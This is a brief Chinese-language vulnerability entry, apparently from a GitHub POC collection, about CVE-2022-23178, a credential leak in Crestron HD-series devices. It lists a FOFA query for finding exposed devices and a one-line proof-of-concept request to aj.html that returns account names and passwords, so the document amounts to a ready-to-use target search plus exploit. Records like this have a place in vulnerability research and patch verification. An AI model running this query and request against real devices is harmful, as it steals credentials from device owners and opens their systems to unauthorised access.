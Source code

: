 # Crestron aj.html 账号密码泄漏漏洞 CVE-2022-23178

## 漏洞描述

Crestron HD等系列设备 aj.html页面调用特定的参数可以获取账号密码等敏感信息

## 漏洞影响

```
Crestron HD等系列设备
```

## FOFA

```
app="Crestron-HD-RX-201-C-E"
```

## 漏洞复现

POC

```
/aj.html?a=devi
```

![image-20220519161948146](./images/202205191619189.png)